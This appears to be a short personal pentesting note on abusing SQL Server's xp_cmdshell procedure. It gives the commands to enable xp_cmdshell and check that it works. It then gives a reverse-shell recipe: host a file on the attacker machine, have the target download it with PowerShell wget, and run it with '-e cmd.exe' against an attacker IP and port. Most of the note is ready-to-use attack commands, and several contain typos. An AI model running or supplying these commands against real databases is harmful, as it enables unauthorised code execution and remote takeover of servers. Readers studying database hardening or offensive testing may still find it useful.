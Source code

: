 ```yaml
---
id: xp_cmdshell
aliases: []
tags:
  - SQL
links: "[[SQL]]"
---
```


# xp_cmdshell

[xp_cdmshell (Transact-SQL)](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver17)
allows the execution of Windows command shell commands directly from the SQL
Server environment.

## Activation

**xp_cmdshell** is desabled by default

```sh
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

## Usage

Check if xp_cmdshell is enabled

```sh
EXEC xp_cmdshell 'whoami';
```

## Reverse shell

Simple [Python HTTP server](https://docs.python.org/3/library/http.server.html)
to serve a file from the attacker machine

```sh
sudo python3 -m http.server 80
```

Acquire the file served by the attacker from the target

```sh
xp_cmdshell "powershell -c cd C:\Users\{user}\Downloads; wget http:{ip_address}/{file_name} -outfile {file_name}"
```

Execute the acquired file on the target

```sh
xp_cmdshell "powershell -c cd C:\Users\{user}\Downloads; .\{file_name} -e cmd.exe {attacker_ip} {attacker_port}"
```
